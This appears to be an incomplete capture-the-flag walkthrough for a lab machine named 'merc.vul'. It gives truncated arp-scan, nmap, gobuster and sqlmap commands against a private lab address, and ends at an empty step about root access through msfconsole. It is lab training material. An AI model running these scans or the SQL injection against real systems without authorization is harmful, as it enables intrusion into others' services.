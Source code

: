 # TITLE
'url'

## Step 1: Discovery
### Command used: arp-scan<br>
<br>

```sh 
arp-scan --interface=ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.91	08:00:27:dc:40:fb	PCS Systemtechnik GmbH
```

## Step 2: Port scan
<i>A full scan determined ports 22 and 8080 were open, and a hosts entry was created for the IP</i>

### Command used: nmap
<br>

```sh
nmap -T4 -sV -p22,8080 merc.vul

Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 17:00 CDT
Nmap scan report for merc.vul (172.16.250.91)
Host is up (0.00055s latency).
```

## Step 3: HTTP enumeration
### Command used: gobuster
<br>

```sh
gobuster dir --url http://merc.vul:8080 --wordlist /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
```

Browsing the URL in the browser didn't reveal anything, until we added text to the end, such as a * or /admin. This revealed an error page indicating Django was installed and DEBUG mode was enabled.<br><br>

![browsing the url](./docs/files/file.png)

NOTES AND STEPS:<br><br>

## Step 4: SQL injection
### You can either manually try strings, or use a tool like SQLMap
<br>

### Command used: SQLMap
<br>

```sh
sqlmap -u http://merc.vul:8080/mercuryfacts/1 --answers="follow=Y" --batch

      ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

---

### Command used: none / browser URL strings

## Step 5: SSH and root access
### Command used: msfconsole
<br>

